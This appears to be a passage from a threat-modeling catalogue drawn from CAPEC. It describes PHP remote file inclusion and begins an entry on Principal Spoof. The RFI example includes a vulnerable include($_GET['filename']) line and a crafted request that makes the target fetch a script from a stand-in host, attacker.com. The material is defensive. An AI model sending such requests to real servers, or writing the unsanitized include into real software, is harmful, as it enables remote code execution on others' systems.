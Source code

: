 In this pattern the adversary is able to load and execute arbitrary code remotely available from the application. This is usually accomplished through an insecurely configured PHP runtime environment and an improperly sanitized include or require call, which the user can then control to point to any web-accessible file. This allows adversaries to hijack the targeted application and force it to execute their own instructions.

<dl>
  <dt>Severity</dt>
  <dd>High</dd>

  <dt>Prerequisites</dt>
  <dd>Target application server must allow remote files to be included in the require, include, etc. PHP directivesThe adversary must have the ability to make HTTP requests to the target web application.</dd>

  <dt>Example</dt>
  <dd>The adversary controls a PHP script on a server http://attacker.com/rfi.txt The .txt extension is given so that the script doesn't get executed by the attacker.com server, and it will be downloaded as text. The target application is vulnerable to PHP remote file inclusion as following: include($_GET['filename'] . '.txt') The adversary creates an HTTP request that passes his own script in the include: http://example.com/file.php?filename=http://attacker.com/rfi with the concatenation of the .txt prefix, the PHP runtime download the attack's script and the content of the script gets executed in the same context as the rest of the original script.</dd>

  <dt>Mitigations</dt>
  <dd>Implementation: Perform input validation for all remote content, including remote and user-generated contentImplementation: Only allow known files to be included (whitelist)Implementation: Make use of indirect references passed in URL parameters instead of file namesConfiguration: Ensure that remote scripts cannot be include in the include or require PHP directives</dd>

  <dt>References</dt>
  <dd>https://capec.mitre.org/data/definitions/193.html, http://cwe.mitre.org/data/definitions/98.html, http://cwe.mitre.org/data/definitions/80.html, http://cwe.mitre.org/data/definitions/714.html</dd>

  <dt>Condition</dt>
  <dd>target.controls.validatesInput is False</dd>
</dl>



## AA02 Principal Spoof

A Principal Spoof is a form of Identity Spoofing where an adversary pretends to be some other person in an interaction. This is often accomplished by crafting a message (either written, verbal, or visual) that appears to come from a person other than the adversary. Phishing and Pharming attacks often attempt to do this so that their attempts to gather sensitive information appear to come from a legitimate source. A Principal Spoof does not use stolen or spoofed authentication credentials, instead relying on the appearance and content of the message to reflect identity. The possible outcomes of a Principal Spoof mirror those of Identity Spoofing. (e.g., escalation of privilege and false attribution of data or activities) Likewise, most techniques for Identity Spoofing (crafting messages or intercepting and replaying or modifying messages) can be used for a Principal Spoof attack. However, because a Principal Spoof is used to impersonate a person, social engineering can be both an attack technique (using social techniques to generate evidence in support of a false identity) as well as a possible outcome (manipulating people's perceptions by making statements or performing actions under a target's name).
